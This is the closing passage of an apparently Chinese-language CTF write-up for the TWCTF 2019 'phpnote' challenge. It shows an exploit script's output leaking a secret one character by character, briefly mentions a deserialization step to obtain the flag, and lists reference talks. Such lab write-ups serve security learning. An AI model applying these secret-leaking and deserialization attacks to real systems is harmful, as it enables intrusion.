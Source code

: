 成功将secret泄露出：

```
➜  twctf-19 ./exp-phpnote.py                                                                     
:
:"
:"7
:"7d
:"7da
:"7dae
........
:"7daeeed052fd2908fb30f462ad1c7936
:"7daeeed052fd2908fb30f462ad1c7936"
```

之后构造反序列化即可得到flag。

## Reference

* [Windows Offender: Reverse Engineering Windows Defender's Antivirus Emulator](https://i.blackhat.com/us-18/Thu-August-9/us-18-Bulazel-Windows-Offender-Reverse-Engineering-Windows-Defenders-Antivirus-Emulator.pdf)
* [WCTF2019: Gyotaku Writeup](https://westerns.tokyo/wctf2019-gtf/wctf2019-gtf-slides.pdf)
